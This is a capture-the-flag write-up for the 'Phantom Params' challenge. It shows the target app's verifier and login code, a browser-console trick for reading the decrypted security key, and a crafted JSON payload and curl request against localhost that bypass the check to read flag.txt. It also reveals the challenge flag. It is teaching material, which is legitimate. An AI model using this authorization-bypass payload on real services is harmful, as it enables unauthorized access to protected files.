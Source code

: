 # Phantom Params - CTF Write-up

## Challenge Description
A secure file sharing platform where only authenticated users can access files. While some files are public, flag.txt requires bypassing a security verification system that combines object merging with dynamic runtime verification.


## Initial Analysis

### 1. Application Flow
- Users must register and login
- Public files (welcome.txt, about.txt) are accessible to all authenticated users
- flag.txt requires passing a security verification
- Limited to 100 requests per 15 minutes

### 2. Source Code Analysis
Looking at the SecurityVerifier class:

```javascript
class SecurityVerifier {
    #ref;
    hiddenKey;
    verifyFn;

    constructor({ hiddenKey }) {
        this.#ref = Object.freeze({
            state: false
        });
        
        this.hiddenKey = hiddenKey || 'ref_' + Math.random().toString(36).substr(2, 5);

        this.verifyFn = (r) => {
            try {
                const p = r[this.hiddenKey];
                if (p && p.auth === true) {
                    return true;
                }
                return false;
            } catch {
                return false;
            }
        };
    }
```

```javascript
let userPrivateKey;
async function handleRegister(event) {
    event.preventDefault();
    const email = document.getElementById('register-email').value;
    const password = document.getElementById('register-password').value;

    try {
        const keyPair = await window.crypto.subtle.generateKey(
            {
                name: "RSA-OAEP",
                modulusLength: 2048,
                publicExponent: new Uint8Array([1, 0, 1]),
                hash: "SHA-256"
            },
            true,
            ["encrypt", "decrypt"]
        );

        const spki = await window.crypto.subtle.exportKey("spki", keyPair.publicKey);
        let binary = '';
        const bytes = new Uint8Array(spki);
        for (let i = 0; i < bytes.byteLength; i++) {
            binary += String.fromCharCode(bytes[i]);
        }
        const base64String = window.btoa(binary);
        const publicKeyPEM = "-----BEGIN PUBLIC KEY-----\n" +
                             base64String.match(/.{1,64}/g).join("\n") +
                             "\n-----END PUBLIC KEY-----";
        userPrivateKey = keyPair.privateKey;
        const response = await fetch('/api/register', {
            method: 'POST',
            credentials: "include",
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ email, password, publicKey: publicKeyPEM })
        });

        const data = await response.json();
        if (response.ok) {
            alert('Registration successful! Please login.');
            toggleForms();
            document.getElementById('error-display').textContent = '';
        } else {
            document.getElementById('error-display').textContent = data.error;
        }
    } catch (error) {
        document.getElementById('error-display').textContent = 'An error occurred during registration';
    }
}

async function handleLogin(event) {
    event.preventDefault();
    const email = document.getElementById('login-email').value;
    const password = document.getElementById('login-password').value;

    try {
        const response = await fetch('/api/login', {
            method: 'POST',
            credentials: 'include',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ email, password })
        });

        const data = await response.json();
        if (response.ok) {
            const encryptedBase64 = data.securityKey;
            const binaryStr = window.atob(encryptedBase64);
            const len = binaryStr.length;
            const bytes = new Uint8Array(len);
            for (let i = 0; i < len; i++) {
                bytes[i] = binaryStr.charCodeAt(i);
            }
            const decryptedBuffer = await window.crypto.subtle.decrypt(
                { name: "RSA-OAEP" },
                userPrivateKey,
                bytes.buffer
            );
            securityKey = decryptedBuffer
            document.getElementById('auth-section').classList.add('hidden');
            document.getElementById('dashboard').classList.remove('hidden');
            document.getElementById('error-display').textContent = '';
        } else {
            document.getElementById('error-display').textContent = data.error;
        }
    } catch (error) {
        document.getElementById('error-display').textContent = 'An error occurred during login';
    }
}
```

Key observations:
1. Uses dynamic key generation (`ref_` + 5 random chars)
2. Creates verification function at runtime
3. Implements object merging with `resolve()`
4. Rate limited to prevent brute forcing

## Vulnerability Analysis

### 1. Object Merging
The application uses custom object merging:
```javascript
resolve(base, ext) {
    const target = Object.create(null);
    // Deep merge implementation
    // Similar to prototype pollution but with clean objects
}
```

### 2. Dynamic Verification
The security check:
- Generates random key on each instance
- using RSA encryption method, the backend encrypts the security-key and sends it to the frontend
- and the frontend decrypts it

## Exploitation Steps

### 1. Runtime Analysis
Using browser's debugger:
1. Check the source code and find the securitykey
2. Go to the console and paste this:
```javascript
const decodedSecurityKey = new TextDecoder().decode(decryptedBuffer);
console.log("Decrypted Security Key:", decodedSecurityKey);
```
3. get the generated dynamic function name which starts with ref_




### 2. Crafting the Payload
After finding the runtime key:
```javascript
{
    "file_id": "flag.txt",
    "data": {
        "ref_r73nu": {
            "auth": true
        }
    }
}
```

### 4. Getting the Flag
Get the cookie by finding the cookie in the requests header
```bash
curl -X POST http://localhost:3000/api/files \
  -H "Content-Type: application/json" \
  -H "Cookie: connect.sid=<your_session>" \
  -d '{"file_id":"flag.txt","data":{"ref_abcd1":{"auth":true}}}'
```
or just directly work with the burpsuite which is more easier.

## Tools Used
- Browser Developer Tools (Debugger)
- Burp Suite/Postman for requests
- JavaScript knowledge for runtime analysis

## Flag
`p_ctf{dyn4m1c_0bj3ct_v3r1f13r}`